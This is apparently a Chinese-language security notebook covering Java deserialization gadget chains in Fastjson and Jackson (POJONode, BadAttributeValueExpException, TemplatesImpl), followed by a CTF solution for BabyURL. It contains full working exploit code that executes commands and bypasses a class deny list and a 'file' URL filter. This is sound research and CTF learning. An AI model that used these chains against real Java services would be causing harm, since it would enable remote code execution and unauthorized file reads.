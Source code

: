 # Fastjson回眸

在Fastjson中，`JSONArray`和`JSONObject`都实现了`Serializable`接口，这两个类的`toString`方法都能触发`toJSONString`的调用，要把一个JSON对象转字符串，必然涉及到对象属性的获取，会调用到对象的getter方法

从1.2.49开始，`JSONArray`和`JSONObject`都实现了自己的`readObject`方法，自定义了一个`SecureObjectInputStream`并重写了`resolveClass`方法，里面调用了`checkAutoType`来对反序列化的类进行黑白名单检查。需要通过原生反序列化的引用机制来绕过。

利用链：toString(e.g. BadAttributeValueExpException#readObject) -> toJSONString -> evil getter(e.g. TemplatesImpl#getOutputProperties)

# Jackson审视

Jackson的使用和Fastjson类似

| FastJson                 | Jackson                       |
| ------------------------ | ----------------------------- |
| JSONObject               | ObjectNode                    |
| JSONArray                | ArrayNode                     |
| JSON.parseObject静态调用 | ObjectMapper.readTree对象调用 |

继承关系：`POJONode`->`ValueNode`->`BaseJsonNode` -> `JsonNode`

利用点在`BaseJsonNode#toString`，跟到后面 ，对于自定义的类使用`BeanSerializer`进行反序列化，调用`serializeFields`对属性进行还原时,`BeanPropertyWriter`调用`getter`

还是用`TemplatesImpl#getOutputProperties`去打，但是这里直接反序列化会出现问题

> Failed to JDK serialize `POJONode` value: (was java.lang.NullPointerException) (through reference chain: com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl["outputProperties"])

查看报错StackTrace

![image-20230727162629130](../.gitbook/assets/image-20230727162629130.png)

`invokeWriteReplace`判断`writeReplaceMethod`是否存在，存在则调用

![image-20230727162824036](../.gitbook/assets/image-20230727162824036.png)

简单粗暴，把这个类的`writeReplaceMethod`删掉即可

完整代码

```java
import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.*;

import javax.management.BadAttributeValueExpException;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;

public class Test {
    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static void main(String[] args) throws Exception{
        // 去除BaseJsonNode的writeReplace方法
        CtClass ctClass =ClassPool.getDefault().get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod ctMethod = ctClass.getDeclaredMethod("writeReplace");
        ctClass.removeMethod(ctMethod);
        ctClass.toClass();

        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec(\"calc\");");
        clazz.addConstructor(constructor);
        byte[][] bytes = new byte[][]{clazz.toBytecode()};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setValue(templates, "_bytecodes", bytes);
        setValue(templates, "_name", "test");
        setValue(templates, "_tfactory", null);

        POJONode pojo = new POJONode(templates);

        BadAttributeValueExpException bd = new BadAttributeValueExpException(null);
        setValue(bd, "val", pojo);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(bd);
        oos.close();
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(baos.toByteArray()));
        ois.readObject();
    }
}
```

# 巅峰极客2023 BabyURL

附件👉[Click Me](../backup/geek_BabyURL.zip)

主要的两个路由

一个用于反序列化、一个用于读`/tmp/file`

```java
@GetMapping({"/hack"})
@ResponseBody
public String hack(@RequestParam String payload) {
    byte[] bytes = Base64.getDecoder().decode(payload.getBytes(StandardCharsets.UTF_8));
    ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);

    try {
        ObjectInputStream ois = new MyObjectInputStream(byteArrayInputStream);
        URLHelper o = (URLHelper)ois.readObject();
        System.out.println(o);
        System.out.println(o.url);
        return "ok!";
    } catch (Exception var6) {
        var6.printStackTrace();
        return var6.toString();
    }
}

@RequestMapping({"/file"})
@ResponseBody
public String file() throws IOException {
    File file = new File("/tmp/file");
    if (!file.exists()) {
        file.createNewFile();
    }

    FileInputStream fis = new FileInputStream(file);
    byte[] bytes = new byte[1024];
    fis.read(bytes);
    return new String(bytes);
}
```

`MyObjectInputStream`重写了`resolveClass`

```java
protected Class<?> resolveClass(ObjectStreamClass desc) throws IOException, ClassNotFoundException {
    String className = desc.getName();
    String[] denyClasses = new String[]{"java.net.InetAddress", "org.apache.commons.collections.Transformer", "org.apache.commons.collections.functors", "com.yancao.ctf.bean.URLVisiter", "com.yancao.ctf.bean.URLHelper"};
    String[] var4 = denyClasses;
    int var5 = denyClasses.length;

    for(int var6 = 0; var6 < var5; ++var6) {
        String denyClass = var4[var6];
        if (className.startsWith(denyClass)) {
            throw new InvalidClassException("Unauthorized deserialization attempt", className);
        }
    }

    return super.resolveClass(desc);
}
```

把`URLVisiter`、`URLHelper`禁了，二次反序列化绕过

`URLHelper`的`readObject`调用了`URLVisiter#visitUrl`，获取的结果写入`/tmp/file`

```java
private void readObject(ObjectInputStream in) throws Exception {
    in.defaultReadObject();
    if (this.visiter != null) {
        String result = this.visiter.visitUrl(this.url);
        File file = new File("/tmp/file");
        if (!file.exists()) {
            file.createNewFile();
        }

        FileOutputStream fos = new FileOutputStream(file);
        fos.write(result.getBytes());
        fos.close();
    }
}
```

目的就很明确了，利用`URLVisiter`去读flag，再写入`/tmp/file`

`visitUrl`限制了URL不能以`file`开头，用大写绕过`FILE:///`

```java
if (myurl.startsWith("file")) {
    return "file protocol is not allowed";
}
```

没错，file协议可以列目录

获取flag的名字F14gIsHereY0UGOTIT

```java
URLHelper urlHelper = new URLHelper(" file:///F14gIsHereY0UGOTIT");
URLVisiter urlVisiter = new URLVisiter();
setValue(urlHelper, "visiter", urlVisiter);

KeyPairGenerator keyPairGenerator;
keyPairGenerator = KeyPairGenerator.getInstance("DSA");
keyPairGenerator.initialize(1024);
KeyPair keyPair = keyPairGenerator.genKeyPair();
PrivateKey privateKey = keyPair.getPrivate();
Signature signingEngine = Signature.getInstance("DSA");
SignedObject signedObject = new SignedObject(urlHelper, privateKey, signingEngine);

POJONode pojo = new POJONode(signedObject);
BadAttributeValueExpException bd = new BadAttributeValueExpException(1);
setValue(bd, "val", pojo);

ByteArrayOutputStream baos = new ByteArrayOutputStream();
ObjectOutputStream oos = new ObjectOutputStream(baos);
oos.writeObject(bd);
oos.close();
```